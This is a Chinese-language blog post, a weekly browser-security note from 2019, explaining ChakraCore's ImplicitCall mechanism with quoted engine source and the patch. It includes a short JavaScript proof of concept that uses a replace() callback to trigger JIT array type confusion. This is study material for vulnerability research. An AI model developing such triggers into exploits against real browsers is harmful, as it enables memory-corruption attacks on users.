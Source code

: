 ```yaml
---
layout: post
title:  "浏览器安全周报 2019.12.02 - 2019.12.06"
date:   2019-12-06 18:00:00 +520
tags: Browser_Security
---
```


上周五笔记本送修，水果店告诉我没有配件现货，订货加维修可能要一周时间，还以为这周的安全周报没法写了，结果周日就告诉我维修完成可以去拿，这售后可以啊！

这周主要是看ChakraCore的一些内部机制，比如回调相关的ImplicitCall机制

主要是学习的elli0tn0phack师傅的文章《Chakra漏洞调试笔记1——ImplicitCall》，这一系列文章我学到了很多，当然目前只是读了几遍，其中很多的知识点我都还在一点一点的学习，这周主要把ImplicitCall机制给学习清楚了，这里也感谢elli0tn0phack师傅和Sakura师傅耐心的指导，感谢师傅们！
- https://www.anquanke.com/post/id/180551

elli0tn0phack师傅在今年的BlueHat Shanghai也有关于浏览器安全相关的精彩演讲《Browser Script Engine Zero Days in 2018》
- https://images.seebug.org/archive/Browser_Script_Engine_Zero_Days_in_2018-EN.pdf
- https://www.microsoft.com/en-us/videoplayer/embed/RE39Zq1

这个会议的官网上有本次会议的大部分视频以及所有的Slides
- https://www.microsoft.com/china/bluehatshanghai/2019/#Agenda

关于ImplicitCall机制，它是用于防止执行回调修改了JS对象，但是JIT不知道的情况，比如`valueOf`回调里修改了数组的长度，但是JIT循环的时候还是缓存的长度，那就会造成一个越界访问

Poc
```
function main() {
    let arr = [1.1, 1.1, 1.1, 1.1, 1.1];
    function opt(f) {
        arr[0] = 1.1;
        arr[1] = 2.3023e-320 + parseInt('a'.replace('a', f));
        arr[2] = 1.1;
        arr[3] = 1.1;
    }

    let r0 = () => '0';
    for (var i = 0; i < 0x1000; i++)
        opt(r0);

    opt(() => {
        arr[0] = {};
        return '0';
    });

    print(arr[1]);
}

main();
```

这个漏洞的成因是因为在JITed Code里触发回调修改了数组`arr`的类型，但是JIT Compiler没有意识到这一点，导致JS层数组修改了类型，但是引擎还把数组当作浮点数数组进行赋值操作

正常情况下JIT Compiler是考虑了回调改变对象内存布局这种情况的，具体实现由`Js::Var ExecuteImplicitCall`来完成
```
template <class Fn>
inline Js::Var ExecuteImplicitCall(Js::RecyclableObject * function, Js::ImplicitCallFlags flags, Fn implicitCall)
{
    // For now, we will not allow Function that is marked as HasNoSideEffect to be called, and we will just bailout.
    // These function may still throw exceptions, so we will need to add checks with RecordImplicitException
    // so that we don't throw exception when disableImplicitCall is set before we allow these function to be called
    // as an optimization.  (These functions are valueOf and toString calls for built-in non primitive types)

    Js::FunctionInfo::Attributes attributes = Js::FunctionInfo::GetAttributes(function);

    // we can hoist out const method if we know the function doesn't have side effect,
    // and the value can be hoisted.
    // 没有Side Effect的函数可以直接调用
    if (this->HasNoSideEffect(function, attributes))
    {
        // Has no side effect means the function does not change global value or
        // will check for implicit call flags
        return implicitCall();
    }

    // Don't call the implicit call if disable implicit call
    // 如果ImplicitCall被禁用表示不允许调用
    if (IsDisableImplicitCall())
    {
        AddImplicitCallFlags(flags);
        // Return "undefined" just so we have a valid var, in case subsequent instructions are executed
        // before we bail out.
        return function->GetScriptContext()->GetLibrary()->GetUndefined();
    }

    if ((attributes & Js::FunctionInfo::HasNoSideEffect) != 0)
    {
        // Has no side effect means the function does not change global value or
        // will check for implicit call flags
        return implicitCall();
    }

    // Save and restore implicit flags around the implicit call

    // 此时明确有回调且有Side Effect，所以设置saveImplicitCallFlags的值
    Js::ImplicitCallFlags saveImplicitCallFlags = this->GetImplicitCallFlags();
    Js::Var result = implicitCall();
    this->SetImplicitCallFlags((Js::ImplicitCallFlags)(saveImplicitCallFlags | flags));
    return result;
}
```

函数`RegexHelper::StringReplace`实现的地方，可以看到直接调用用户定义的函数，没有做检查
```
Var RegexHelper::StringReplace(JavascriptString* match, JavascriptString* input, JavascriptFunction* replacefn)
{
    CharCount indexMatched = JavascriptString::strstr(input, match, true);
    ScriptContext* scriptContext = replacefn->GetScriptContext();
    Assert(match->GetScriptContext() == scriptContext);
    Assert(input->GetScriptContext() == scriptContext);

    if (indexMatched != CharCountFlag)
    {
        Var pThis = scriptContext->GetLibrary()->GetUndefined();
        // 调用用户定义的函数
        Var replaceVar = CALL_FUNCTION(scriptContext->GetThreadContext(), replacefn, CallInfo(4), pThis, match, JavascriptNumber::ToVar((int)indexMatched, scriptContext), input);  // <--
        JavascriptString* replace = JavascriptConversion::ToString(replaceVar, scriptContext);
        const char16* inputStr = input->GetString();
        const char16* prefixStr = inputStr;
        CharCount prefixLength = indexMatched;
        const char16* postfixStr = inputStr + prefixLength + match->GetLength();
        CharCount postfixLength = input->GetLength() - prefixLength - match->GetLength();
        CharCount newLength = prefixLength + postfixLength + replace->GetLength();
        BufferStringBuilder bufferString(newLength, match->GetScriptContext());
        bufferString.SetContent(prefixStr, prefixLength,
                                replace->GetString(), replace->GetLength(),
                                postfixStr, postfixLength);
        return bufferString.ToString();
    }
    return input;
}
```

为什么最后面的标志位可以用于判断是否有回调呢？

我们来看Patch后的调用，传入的是`ImplicitCall_Accessor`，对应的值是`0x04`，最后通过`|`就不是原来的值，所以JIT在检查的时候，一看`ImplicitCallFlags`不是原来的值，那就说明`ExecuteImplicitCall`判断这里存在回调，所以直接BailOut到Interpreter去解释执行
```
ThreadContext* threadContext = scriptContext->GetThreadContext();
Var replaceVar = threadContext->ExecuteImplicitCall(replacefn, ImplicitCall_Accessor, [=]()->Js::Var
{
    Var pThis = scriptContext->GetLibrary()->GetUndefined();
    return CALL_FUNCTION(threadContext, replacefn, CallInfo(4), pThis, match, JavascriptNumber::ToVar((int)indexMatched, scriptContext), input);
});

enum ImplicitCallFlags : BYTE
{
    ImplicitCall_HasNoInfo = 0x00,
    ImplicitCall_None = 0x01,
    ImplicitCall_ToPrimitive = 0x02 | ImplicitCall_None,
    ImplicitCall_Accessor = 0x04 | ImplicitCall_None,
    ImplicitCall_NonProfiledAccessor = 0x08 | ImplicitCall_None,
    ImplicitCall_External = 0x10 | ImplicitCall_None,
    ImplicitCall_Exception = 0x20 | ImplicitCall_None,
    ImplicitCall_NoOpSet = 0x40 | ImplicitCall_None,
    ImplicitCall_All = 0x7F,
    ImplicitCall_AsyncHostOperation = 0x80
};
```

之前分析的SamsungSMT逻辑提权漏洞，详细分析写了一半后来就没动了，看看下周写完给发出来吧，我喜欢逻辑漏洞，剩下的时间多看看编译原理，现在再来看编译原理感觉能和编译器很多知识点对应上，很有趣:))